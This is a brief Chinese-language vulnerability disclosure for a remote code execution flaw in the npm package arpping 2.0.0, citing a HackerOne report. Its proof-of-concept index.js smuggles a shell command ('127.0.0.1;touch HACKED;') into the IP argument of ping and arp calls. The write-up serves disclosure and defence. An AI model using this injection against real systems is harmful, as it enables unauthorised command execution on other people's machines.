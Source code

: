 # arpping 2.0.0 远程代码执行（RCE）

arpping是一个软件包，使用ping和arp查找并搜索与Internet连接的设备（本地）。

npm页面： https://www.npmjs.com/package/arpping

**PoC：**

创建一个index.js

```js
const Arpping = require('arpping');

var arpping = new Arpping();
arpping.ping(["127.0.0.1;touch HACKED;"]); // arpping.arp(["127.0.0.1; touch HACKED;"]);
```

![](images/16111463128724.jpg)


ref：

https://hackerone.com/reports/972220